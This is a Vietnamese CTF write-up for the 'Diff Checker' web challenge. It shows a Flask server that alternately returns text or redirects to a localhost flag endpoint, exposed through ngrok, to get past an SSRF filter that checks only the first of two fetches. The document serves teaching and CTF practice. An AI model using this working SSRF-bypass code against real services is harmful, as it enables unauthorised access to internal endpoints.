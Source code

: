 # Diff Checker

Mình vẫn chưa solve được bài này tại giải do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)). Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***

![dejavu](images/dejavu.png)

DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là một đoạn code mình dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo mình chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` để exploit thôi xD

![exploit](images/exploit.png)

Wait for it.

![flag](images/flag.png)


Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3
